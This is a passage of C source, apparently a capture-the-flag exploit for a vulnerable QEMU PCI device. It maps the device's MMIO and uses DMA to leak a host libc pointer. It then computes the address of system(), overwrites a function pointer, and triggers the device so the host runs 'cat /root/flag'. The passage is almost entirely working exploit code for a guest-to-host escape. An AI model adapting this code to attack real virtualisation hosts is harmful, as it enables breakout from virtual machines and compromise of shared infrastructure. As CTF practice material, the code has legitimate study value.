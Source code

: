 ```

    memcpy(userbuf,buf,len);

    write_dst(0x40100);
	write_src(userbuf_pa);
    write_cnt(len);
    write_cmd(1);

    sleep(1);
}

void enc(){
	write_src(0x40100);
	write_cnt(0);
	write_cmd(7);
}

int main(){

	int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1){
        perror("open mmio");
        exit(-1);
    }

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED){
    	perror("mmap mmio");
        exit(-1);
    }

    printf("mmio_mem:\t%p\n", mmio_mem);

    userbuf = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    if (userbuf == MAP_FAILED){
    	perror("mmap userbuf");
        exit(-1);
    }

    mlock(userbuf, 0x1000);
    userbuf_pa = va2pa(userbuf);

    printf("userbuf_va:\t%p\n",userbuf);
    printf("userbuf_pa:\t%p\n",(void *)userbuf_pa);

    read_enc_addr();

    uint64_t leak_enc=*(uint64_t*)userbuf;
    printf("enc_addr:\t%p\n",(void*)leak_enc);

    uint64_t libc_base = leak_enc - 0x283dd0;
    printf("libc_base:\t%p\n",(void*)libc_base);

    uint64_t system_addr = libc_base + 0x1FDB18;
    printf("system_addr:\t%p\n",(void*)system_addr);

    write_system_addr(&system_addr,8);

    char *cat_flag = "cat /root/flag\x00";
    write_cat_addr(cat_flag,strlen(cat_flag));
    enc();
}
```